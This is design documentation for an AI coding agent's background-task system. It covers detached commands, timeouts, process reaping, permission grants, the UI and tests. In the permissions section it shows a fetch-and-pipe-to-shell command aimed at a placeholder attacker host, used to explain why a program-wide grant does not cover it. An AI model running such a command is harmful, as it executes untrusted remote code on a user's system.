


# Background tasks

`run_command` normally blocks the whole turn until the command exits, which makes the agent sit idle through builds, test suites, installs and batch downloads. A backgrounded call hands the command to a **session-scoped task pool** and returns a task id immediately, so the agent keeps working and collects the result later.

## Model-facing surface

| Tool | Purpose |
|---|---|
| `run_command` with `background: true` | Start the command detached; returns a `task_id` instead of output. |
| `background_list` | Every task of the session with status, elapsed time, and estimate. |
| `background_output` | Captured stdout and stderr, including while the task still runs (`tail_lines`, default 100). |
| `background_wait` | Block for a bounded stretch (default 60s, maximum 300s) and return the output once the task ends. |
| `background_stop` | Terminate a task and the whole process group it started, including one left behind by an earlier coddy run. |
| `background_reap` | Kill every background process of this session that outlived the coddy run which started it. |

Two extra `run_command` arguments drive the pool:

- **`background`** (bool) — run detached.
- **`expected_seconds`** (int) — the model's own estimate of how long the work takes. It is **advisory**: it drives the status ticker the operator sees and, when `timeout_seconds` is omitted, the hard timeout. Guessing low only marks the task **overdue**; it never kills the task early.
- **`notify_on_finish`** (bool) — wake the agent when this task ends (see below).

**The model is told what still runs on every request.** A model starts a task, keeps working, and several steps later has to remember that the task exists - and that a server it started is still up when it writes its summary. The turn context block that closes every request ([Context compaction](compaction.md) keeps the system prompt frozen, so what moves travels after the history) carries a `## Background tasks` section with one line per running task of the session, in the wording of `background_list` (`bg_3 [running] make test (elapsed 2m5s, estimated 5m) silent for 1m10s`). It costs a line per task and saves the `background_list` call that was the only way to find out. Finished tasks and [system tasks](#system-tasks) are left out, and with `tools.background.enable: false` the section is not written at all (`backgroundTasksSection` in `internal/agent/turn_context.go`).

The prompt (`internal/prompts/agent.md`, and the plan-mode equivalent) tells the model when to background, to estimate honestly, to poll rather than busy-wait on `background_wait`, to stop servers and watchers it started, and to read the final status before summarising the outcome. Background execution is available in **both** agent and plan mode: a planner investigating a repo should not have to sit through a slow read-only command either.

## Waking the agent when a task finishes

A long job is only useful unattended if something restarts the conversation when it ends. A task started with `notify_on_finish: true` therefore begins a **new agent turn on its own** once it reaches a terminal state, so the model can end its turn the moment the work is handed off.

The opt-in is the point. The model decides which results are worth a turn, so a batch of quick commands cannot each spend one behind the operator's back; everything else simply lands in the history for the model to read later.

- The woken turn starts from a plain statement of the outcome — id, status, exit code, runtime, and any error — and is told to read the output with `background_output` rather than having a wall of text pasted into the prompt. It is also told explicitly that a task which failed, timed out, or was stopped did not succeed.
- **Tasks finishing together cost one turn.** A short settle window batches a burst, so three results arrive as one turn with three lines instead of three turns.
- The turn goes through the session manager's normal prompt path, so it takes the **composer turn lock**. That lock refuses rather than queues: a session with a turn already in flight answers `ErrSessionTurnBusy` at once. Waiting is therefore the waker's job — it **retries the same batch** (1 s, doubling to a 15 s ceiling) until the session goes idle, and only then starts the turn.
- **A task that dies inside its own turn is still reported.** This is the ordinary case, not an exotic one: the model starts a task, keeps talking, and anything that fails in the first seconds finishes while the launching turn is still open. The outcome waits for that turn and arrives after it, rather than being dropped. Anything that finished during the wait joins the same batch, so a long turn still costs one wake. A session whose turn never ends gives up after 30 minutes and logs `background_wake_abandoned`; every other turn failure is logged as `background_wake_failed` and not retried, because it would only spin.
- Nobody is attached to a woken turn. On `coddy serve` it is published to the session's **composer relay** (a watching SPA or `--remote` client can follow it) through a **non-interactive** sender: a gated tool call inside it is **denied** unless the server's own `tools.permission_mode` is `bypass`, exactly like a permission resume. Unattended work that needs gated tools runs under `bypass` or `accept_edits` on purpose, not by accident.
- **Shutdown does not wake anything.** Drain stops running tasks, and a stop is terminal; without that guard every task killed by shutdown would start a turn nobody will read.
- A woken turn can start another notifying task, which is a legitimate pattern for unattended work and also a way to burn a night of tokens on a loop. `maxWakesPerSession` (50 per process, `internal/agent/background_notify.go`) is the backstop; reaching it stops starting turns and logs `background_wake_capped`. The budget counts turns that actually ran — an attempt refused by a busy session or by shutdown is refunded, so waiting out one long turn cannot exhaust it.

Wiring lives in `Server.attachBackgroundWaker` (`external/httpserver/background_http.go`), which subscribes under a **keyed** pool subscription so rebuilding the server replaces the watcher instead of stacking another.

## Timeouts

A task always has a hard limit, resolved in this order:

1. an explicit `timeout_seconds` wins, including a deliberately tight one;
2. otherwise a stated `expected_seconds` buys **3×** itself, floored at **60s** so a wildly optimistic guess does not kill work that was only a little slow;
3. otherwise `tools.background.default_timeout_seconds` (900s).

The result is capped by `tools.background.max_timeout_seconds` (3600s). Hitting the limit terminates the process group and records the task as `timed_out` — that is a failure, not a success, and the model is told to report it as one.

An **adopted** task (see below) is the one case with no caller-supplied limit: it gets `max_timeout_seconds` outright. It has no estimate behind it, and the one number that must never be reused is the foreground timeout it just outlived — an explicit `timeout_seconds` wins verbatim, so passing the expired value would kill the task in milliseconds.

## Adoption: a foreground command that outlives its timeout

A foreground `run_command` waits 30 seconds by default. Killing whatever is still running at that point is wrong twice over: a dev server or watcher is doing exactly what was asked, and anything the shell spawned survives a kill aimed only at the shell while still holding the inherited output pipe — which used to wedge `cmd.Wait` forever and hang the whole turn.

So the command is **handed to the pool instead of killed**. The process keeps running in the same process group, its output stream is redirected into the task's sink with everything captured so far flushed in first, and the tool answers with:

```
Command still running after 30s. It was NOT cancelled: it now runs as background task bg_3 (hard timeout 1h).
Follow it with background_output task_id="bg_3", background_wait, or terminate it with background_stop.
Do NOT run this command again with a larger timeout_seconds: it is already running, and a second copy would fight the first one for the same ports, locks and files.
Output captured so far:

  App running at:
  - Local:   http://localhost:8081/
```

The notice leads and the output follows, because the tool output ceiling truncates from the end. The result is a normal tool result, not an error: the agent loop shows the model an error's text and discards the result string, so reporting a timeout as an error is what threw the captured output away.

From there the task is an ordinary one — `background_list`, `background_output`, `background_wait`, `background_stop` all reach it, `notify_on_finish` is off (the model is being told right now), and its elapsed time counts from the original foreground start rather than from the handover.

The command **is** terminated, process group and all, in the three cases where nothing can take ownership: the turn was cancelled, no pool is wired, or the pool refused (`tools.background.enable: false`, session at `max_concurrent`, process draining). The answer then names the exact reason and points at `background: true`.

Implementation: `Pool.Adopt` (`internal/bgtask/pool.go`) shares the single scheduling path with `Pool.Start`; the shell side is `startForeground` and `adoptedHandle` in `internal/tools/shell/foreground.go`, with `switchWriter` holding the output until the pool takes it over. Exactly one `cmd.Wait` exists per command — the pool observes the same result rather than calling it again.

Known limitation: an adopted command keeps writing through the pipe `exec` created for the foreground run, and that pipe is drained only until `cmd.Wait` returns. If the command detaches a daemon and its shell then exits, `WaitDelay` closes the pipe five seconds later and the task is recorded as finished with the shell's exit code — the daemon keeps running, but whatever it prints after that point is lost. The trade is deliberate: without `WaitDelay` the wait would hang on the inherited pipe exactly the way the original bug did. Commands that keep their server in the shell's foreground — which dev servers do by default — are unaffected.

## Output is sanitised on read

Captured bytes are stored raw in `output.log`; escape sequences and carriage-return progress redraws are stripped when the output is **read** (`platform.SanitizeOutput`, applied in `bgtask.decodeOutput` and by `run_command` itself). A webpack or vue-cli build otherwise spends most of its output on `\x1b[2K\x1b[1A` redraws, and the line that matters is buried in them. Stripping at read time keeps the on-disk log a faithful record and avoids corrupting escape sequences that straddle two writes.

## Lifecycle and persistence

The pool lives **inside the running `coddy` process**. Each task mirrors its metadata and captured output into the session bundle:

```
<sessionDir>/background/<task_id>/meta.json
<sessionDir>/background/<task_id>/output.log
```

`meta.json` also carries the process-group leader pid and, on Windows, its exact
OS creation time as `process_started_at`. That identity is private persistence
metadata rather than part of the HTTP task row: it exists only so a later coddy
can prove that a reused pid does not belong to a different process.

The in-memory output window is bounded (`tools.background.output_buffer_bytes`, 256 KiB) so a chatty task cannot grow without limit; the log on disk keeps everything. Reading a persisted log back is capped at its last 256 KiB, so a watcher left running for a day cannot be pulled into memory wholesale — the response flags the truncation.

- **Server drain** and **session delete** terminate every running task of the affected scope, so shutting coddy down does not leave orphaned shell trees behind.
- **After a restart**, a task recorded as still in flight is reported as **`orphaned`** rather than as running forever. The correction is derived on every read and deliberately **not** written back: the HTTP list is polled, and rewriting would clobber the metadata of tasks still running in this process and race the supervisor's own write of the same file. The id counter resumes past whatever the bundle already holds, so a new task never overwrites the log of an identically named one from the previous process.

Statuses: `queued`, `running`, `succeeded`, `failed`, `timed_out`, `stopped`, `orphaned`.

## Stuck and leftover processes

Two different problems, with two different answers.

**Stuck**: a task that is running but doing nothing. There is no way to know that from the outside, so the pool reports the only fact it has — how long the task has produced no output. `background_list` marks a running task `silent for …` after a minute of quiet. It is a hint, not a verdict: `sleep`, a dev server and a watcher are all supposed to be silent. The model reads the command, decides, and calls `background_stop`. The hard timeout is still the backstop for anything nobody looks at.

**Leftover**: a process that outlived the coddy run which started it, because that run was killed rather than drained. The task record persists the **process group leader pid**, so a fresh coddy can tell a record whose processes are gone (reported `orphaned`) from one whose processes are still on this machine. `background_list` marks those `still alive from an earlier run`, `background_stop` reaches one by id, and `background_reap` kills all of them for the session at once.

Only a record that still claimed to be **running** when its process died is ever a reaping candidate. A task that finished normally leaves a stale pid, and the OS reuses pids — acting on one would kill an unrelated process.

The probe behind that has to answer **"is this task's process still running"**, not "does something answer to this number", and the two platforms need different work to get there:

- On unix, signalling **process group** `-pid` is already both checks at once: an exited task leaves an empty group (`ESRCH`), and a recycled pid only matches if it also leads a group, which narrows reuse a long way without closing it. Checking the leader's start time instead would open a worse hole — the group outlives its leader, and a leader that exited while its children kept running is exactly the survivor worth finding.
- Windows has no comparable group probe, and the obvious substitute — opening the process by pid — is wrong in both directions. A process **object** outlives the process itself for as long as anybody holds a handle to it (and `os.FindProcess` opened one per probe, so probing was itself what kept a corpse resolvable); and opening by number matches **any** process, with no group-leader requirement to filter out pid reuse. So the Windows probe asks `WaitForSingleObject` with a zero timeout, which distinguishes a running process from a retained corpse, and then requires its exact **creation time** to equal the `process_started_at` captured from Windows when the task launched. A missing or unreadable identity fails closed.

Proving the identity and then killing by number would still leave a window between the two, so on Windows the kill re-opens the pid, re-checks the creation time, and **holds that handle open for the whole of `taskkill`**. Windows keeps a pid allocated while any handle to its process object is open, so nothing can inherit the number in between — and `taskkill /T` still resolves the children that name it as their parent. Liveness is deliberately not required there: a leader that already exited can have running children, and those are the point.

That comparison is why reaping never needs a fresh pid from the operator: the record carries everything needed to prove the pid still means what it meant.

**Upgrading**: records written before `process_started_at` existed carry a pid and no identity. On Windows they can no longer be proven, so they are not listed as leftovers and `background_reap` will not touch them — the fail-closed side of the same rule. If such a run really did leave a process behind, kill it from the OS and delete the stale session bundle. Unix is unaffected: its probe never consumed the identity.

There is deliberately **no** tool that kills an arbitrary pid. `run_command` can already run `kill`, and it goes through the permission gate; a dedicated tool would route around that.

## Permissions

A backgrounded command goes through the same permission gate as a foreground one — backgrounding is not a way around approval. Because a batch of calls that differ only in their arguments would otherwise ask once per call, the dialog offers a fourth choice next to **Allow** / **Allow always** / **Reject**:

**Always allow `<program>`** widens the grant from the exact command to the program itself. The button names the exact allowlist entry that will be stored, so the operator approves the string that is actually saved:

- `curl -s https://example.com/a` → grants **`curl`**, which then covers `curl` with any arguments;
- `git status --short` → grants **`git status`**, because for multiplexers (`git`, `go`, `npm`, `docker`, `make`, `kubectl`, …) the first argument selects what actually happens; `git push` still asks.

Widening is offered **only** for a single plain invocation. Anything carrying shell metacharacters (`| & ; < > $( ) backtick * ? [ ] { } ! # ~ % @`, a newline) or a leading `VAR=` assignment keeps the narrow grant. `Allow always` keeps its original meaning; the wider grant is never implied.

Grants are session-scoped (`internal/session.State.PermissionCommandGrants`). Matching is deliberately stricter than for the operator-authored `tools.command_allowlist`: a session grant only ever covers a candidate command that is itself a single plain invocation. Trailing arguments stay covered, as they always were, but appending shell machinery does not — `curl <attacker> | sh` asks again even with a `curl` grant. The operator's own `tools.command_allowlist` keeps its documented prefix meaning.

## HTTP surface

| Method | Path | Purpose |
|---|---|---|
| `GET` | `/coddy/sessions/{id}/background-tasks` | Task rows plus a `running` count. |
| `GET` | `/coddy/sessions/{id}/background-tasks/{task_id}` | One task with its captured `output` (optional `?tail=N`). |
| `POST` | `/coddy/sessions/{id}/background-tasks/{task_id}/stop` | Terminate the task; returns the final row and output. |

Rows carry the raw snapshot plus server-computed `elapsed_seconds`, `overdue`, and `running`, so every client agrees on the clock arithmetic. Tasks recorded by an earlier process are merged in from the session bundle as `orphaned`.

The SPA **polls** these endpoints rather than listening on SSE: a background task outlives the stream of the turn that started it. Cadence is 2.5s while anything runs and 15s otherwise.

## UI

The panel is **docked inside the session**, to the right of the transcript, at `#/s/<sessionId>/tasks` (and `#/s/<sessionId>/tasks/<task_id>` for one task). The route carries the chat, so a reload restores both the conversation and the panel. That placement is the answer to "which session spawned this process": the panel is part of the conversation that started the tasks, so there is nothing to label.

- **Every task is the same card**, whatever it is and whether it runs or has finished: a status dot, a **tag** that says what stands behind it (`shell` for a command, the agent's name for a subagent run, `memory` for the memory run of a turn), the title - the command, or what the agent was asked to do - and a line under it: elapsed against the estimate while it runs, how long it ran and when it ended afterwards (`20s · 12:50`). How the task ended is the dot's colour; the card says it in words only when opened. A subagent run, a scheduled run and the memory run also name, on the right of that line, the model they run on and the tokens their calls have spent (`qwen3.8-27b · 212k tokens`), updated while they run; hovering the card shows the full model id and the input and output tokens apart. A running card adds a Stop control and, **only** when the model supplied an estimate, a progress bar. Running tasks stand at the top of the panel under no heading; anything above the **Finished N** counter is running.
- **A click anywhere on a card opens it in place.** There is no second pane: the open card shows the command with a copy button (or **Show transcript** for an agent run), the error if the run ended with one (not the bare `exit status 2` of a command, which only repeats the exit code), the captured output in a box that scrolls on its own, and at the bottom how the task ended, its exit code and how long it ran (`Failed · Exit code 2 · Duration 10s`). Open as many cards as you like: each keeps reading its own output while its task runs. Which cards are open is not part of the address, which says only that the panel is showing.
- **Finished N** is a counter, not a list. Expanding it shows the finished cards; the rest stay on disk. That is how "keep every log" and "do not load the app" hold at once: the list is counted, the cards render on demand, and a task's output is fetched only when its card is opened.
- **Clear** drops the finished history for this session (`DELETE /coddy/sessions/{id}/background-tasks`). Running tasks are untouched.
- Ordering is **purely by start time**, newest first, among the live cards and inside the finished history alike. Running tasks are not floated to the top of the history: they stand above the counter already, and mixing two orderings makes a list that never sits still to read.
- The **opener** is the **Tasks** control at the right edge of the chat header. The header is sticky, so the control does not scroll away with the transcript, and it is there from the first message: a chat that has not run a task reads `Tasks`, one that has reads how many run out of how many there are (`Tasks 1 / 3`, then `Tasks 0 / 3` once everything has finished). A click opens the panel and a second one closes it. While a turn runs, the [live status line](../surfaces/web-ui.md#live-status-next-to-the-typing-dots) names the running tasks as well, and the name is a button to the same panel. Neither number counts [system tasks](#system-tasks), so the memory run of every turn does not read as a task the model started. The control is deliberately not in the nav rail: background tasks belong to one chat.



*The Tasks panel opened from the control in the chat header: a subagent and a command still running, and a finished build opened in place with its command, output and exit code*
- A transcript tool row that started a task names itself a background run and shows the task's clock where an ordinary row shows its duration, plus **Open in Tasks** and **Stop** when expanded. It says nothing about how the run ended: the status, the estimate, the exit code and the error are read on the task's card in the panel, which is what **Open in Tasks** opens: the panel comes up with that card already open.

Layout, colour, and mobile contracts are in `DESIGN.md` (**Background tasks panel**, **Background task on a transcript row**).

## In the console

The agent reaches the pool through its tools; the operator reaches it with `/tasks`, which opens the session's tasks in the place of the editor ([Console](../surfaces/console.md#commands-and-keys)). A row says the same three things a card of the web UI says - the tag (`shell`, the agent's name, `memory`), the title, how the task is going - in the same order, newest first. **enter** opens a task: the command, the child session of an agent run, the error it ended with, the last lines of the output, read again while the task runs. **s** stops a running task and everything it started, **r** reads again, **escape** steps back.

While a turn runs the status line counts the running tasks (`2m 05s · 1.2k tokens · 1 running task · Responding`), and once the turn has ended the footer keeps the count with the command that lists it (`1 task running (/tasks)`), because a background task outlives the turn that started it. Neither count includes [system tasks](#system-tasks).

The console reads the tasks through three methods of its backend: `session.Manager` answers from the pool of this process and from the bundle of an earlier one (`bgtask.Pool.SessionTasks`, the same read the HTTP rows use), and under `--remote` `remote.Handler` answers from the three REST routes above, so the overlay lists and stops the processes of the server the agent runs on. An unreachable server keeps the last rows on screen: unreachable is not "no tasks".



*`/tasks` in the console: a running command, its tag, its clock against the estimate*

## Configuration

See `tools.background` in `docs/reference/config.md`:

```yaml
tools:
  background:
    enable: true
    max_concurrent: 5
    default_timeout_seconds: 900
    max_timeout_seconds: 3600
    output_buffer_bytes: 262144
```

Setting `enable: false` removes the `background` option from `run_command` and does not register the background tools at all. Subagent runs (`docs/features/subagents.md`) live in the same pool, so `max_concurrent`, `max_timeout_seconds` and `output_buffer_bytes` bound them too; `subagents.*` adds the process-wide cap on child runs, the nesting depth and the default run timeout.

## System tasks

A task the runtime starts on its own behalf, today the memory subagent of a user turn ([Long-term memory](memory.md)), is a `kind: agent` task whose `agent` object carries `system: true`. It is admitted past `tools.background.max_concurrent` and never counted toward it, because that cap bounds the work the model starts and a run per turn would refuse the model's next command; the model-facing tools (`background_list`, `background_output`, `background_wait`, `background_stop`) omit it and refuse its id, while the REST rows and the Tasks drawer show it, its card tagged `memory`. Drain stops it like any task, after a grace for a run that is still persisting.

## Subagent runs

The pool deliberately knows nothing about shells. What a task *is* comes from whoever starts it: the `CommandRunner` for a shell command, or a launch callback for work the pool cannot describe as a command:

```go
type Handle interface {
	Wait() (exitCode int, err error)
	Stop(grace time.Duration) error
	PID() int
	ProcessStartedAt() time.Time
}

type LaunchFunc func(taskID string, out io.Writer) (Handle, error)
```

A **subagent run** (`docs/features/subagents.md`) is a task of kind `agent`, started through `Pool.Launch(spec, launch)`. `Launch` shares the single scheduling path with `Start` and `Adopt`: admission (the per-session limit, drain) happens first, so `ErrPoolFull` or `ErrDraining` guarantees the callback never ran and nothing was created; then the pool assigns and registers the task id and only then calls back with that id and the task's output sink, so the child session is created knowing which task it belongs to. The callback returns a `Handle` whose `Stop` cancels the child's context and whose `Wait` blocks until the run settled. `PID` is 0 and `ProcessStartedAt` is the zero time, which is why the survivor probe never mistakes such a task for a pid it may kill.

What that changes on the surface:

- `Spec.Agent` and `Snapshot.Agent` carry the agent identity, serialised as `"agent": {"name": "…", "session_id": "sess_…"}` on the task row, in `GET .../background-tasks` and in the persisted `meta.json`. The child session id is generated before the pool is involved, so the first snapshot ever published already carries it. Without an explicit label the row reads `agent <name>`; the runtime sets `agent <name>: <description>`.
- The output log is the child's progress: one `[assistant]` line per line of assistant text, `→ tool` on start, `✓` / `✗ tool` on finish, and a closing block starting with `=== subagent report ===` that carries the outcome, the turn count, the duration and the child's final message. `background_output` and `background_wait` return it like any other log.
- **Stop cancels the child.** `background_stop`, the panel's Stop control, `POST .../stop`, session delete and server drain all go through the handle, which cancels the child's turn; the pool waits for the run to settle before it reports `stopped`.
- The card of the run carries the agent's name as its tag, and once opened offers **Show transcript**, which routes to the child session (`#/s/<child id>`), a read-only transcript that stays out of History. A shell task has no transcript: its open card shows the output text.
- **A detached child that needs a permission answer asks in the parent chat.** Once the spawning turn has ended there is no chat stream left to carry the prompt, so under `coddy serve` with the HTTP surface it is attached to the running agent row as `pending_permission` (the payload of the SSE `permission` event, with the **child** session id, plus `parent_session_id`, `task_id`, `agent_name` and `asked_at`) and announced on `GET /coddy/events` as `subagent_permission`. The web UI shows it at the end of the parent session's chat with the prompt's preview and its **Allow** / **Reject** buttons, which answer `POST /coddy/sessions/{child}/permission`; the same prompt reaches a console attached over `--remote` and, for a Telegram session, the chat. The waiting task keeps running and keeps its timeout, and the drawer keeps its fast poll cadence; nothing about the prompt is persisted. See `docs/features/subagents.md` (Detached runs).
- The run is a task of the **parent** session, so it counts against the parent's `max_concurrent` like a background command. Work the child starts itself (a backgrounded `run_command`, a grandchild) is registered under the **child's** session id and persisted in the child's bundle; it is stopped and awaited before the child is retired. The number of child LLM loops the whole process may run at once is a separate, process-wide cap, `subagents.max_concurrent`.

Everything else in this document applies unchanged: timeouts (the run arrives with an explicit `TimeoutSeconds` resolved by the runtime and is capped by `max_timeout_seconds` like any other task), persistence, drain, orphan marking after a restart, and the HTTP surface.

A **scheduled run** ([Scheduler](../operate/scheduler.md)) is the same kind of task under a **job session** instead of a chat: the scheduler's runs panel is this panel docked in the scheduler drawer, polling `GET /coddy/sessions/{job session}/background-tasks`, and its Clear goes through `DELETE /coddy/scheduler/jobs/{job_id}/runs` so the run transcripts go with the task records. When a child or a scheduled run is retired, its own finished tasks leave the pool's memory (`Pool.ReleaseSession`) while the records stay in its bundle; the scheduler's retention drops older runs one at a time (`Pool.Forget`).

## Tests

- Happy paths are Gherkin specs run by godog: `features/background_tasks.feature` (pool behaviour through the tools, `internal/tools/shell/bdd_background_test.go`), `features/background_reap.feature` (leftovers from an earlier run, `internal/tools/shell/bdd_background_reap_test.go`, which abandons a real second pool over the same bundle rather than stubbing the restart), `features/background_tasks_http.feature` (REST surface, `external/httpserver/bdd_background_test.go`), `features/background_permissions.feature` (the program-wide grant, `internal/permission/bdd_background_permissions_test.go`), and `features/foreground_timeout_adoption.feature` (handover of a foreground command that outlives its timeout, `internal/tools/shell/bdd_foreground_timeout_test.go`).
- The openers of the panel in the web UI are specified in `features/background_tasks_web_ui.feature` and the running-task segment of the live line in `features/turn_progress_web_ui.feature` (`external/ui/bdd_turn_progress_ui_test.go`, each step one named vitest test).
- The running-tasks section of the turn context is pinned in `internal/agent/turn_context_tasks_test.go`: a running task is listed the way `background_list` lists it, a system task and another session's task are not, a stopped task leaves the block, and nothing is written with background runs switched off.
- Edge cases live in ordinary unit tests: timeout resolution, the concurrency cap, output-window truncation, orphan marking, id uniqueness across restarts (`internal/bgtask`), grant refusal for metacharacters (`internal/permission`), and the UI helpers (`external/ui/src/ui/tasks/`).
- The liveness probe has its own tests in `internal/platform`: `procgroup_test.go` for what both platforms owe (a running process is found, an exited one is not, probing is repeatable), and `procgroup_windows_test.go` for what only Windows can get wrong — reporting a killed process alive because its handle is still open, accepting a creation time the record does not describe, and killing a pid on such a record. Reading a bundle written before `process_started_at` existed is pinned in `internal/bgtask` (`TestLoadPersistedLeavesALegacyRecordWithoutAProcessIdentity`).
- Subagent runs on the pool are specified in `features/subagents.feature` (`internal/agent/bdd_subagents_test.go`), `features/subagents_http.feature` (`external/httpserver/bdd_subagents_test.go`, including a detached prompt announced on the events stream and answered through the child session), `features/subagents_detached_prompts.feature` (`internal/serve`) and `features/subagents_web_ui.feature` (the prompt answered in the parent chat); `Pool.Launch` ordering and `Snapshot.Agent` persistence are unit tests in `internal/bgtask`. See `docs/features/subagents.md`.
- The console side is specified in `features/cli_tui.feature` (the overlay over a real pooled command: list, output, stop; the status line's turn numbers) and `features/cli_remote.feature` (the same overlay and the `turn_progress` line against a fake remote server), with the overlay's rendering and keys, the running count and the poll cadence in `external/cli/tasks_test.go`. `examples/cli/capture_tasks.py` drives the real binary in a pty against a scripted model and renders the captures of this page and of the console guide.
- End-to-end against a real model: `examples/httpserver/http_e2e_background.py`, `examples/httpserver/http_e2e_background_reap.py` (kills its own coddy mid-task and makes a fresh one clean up after it), and `examples/acp/acp_e2e_background.py`.
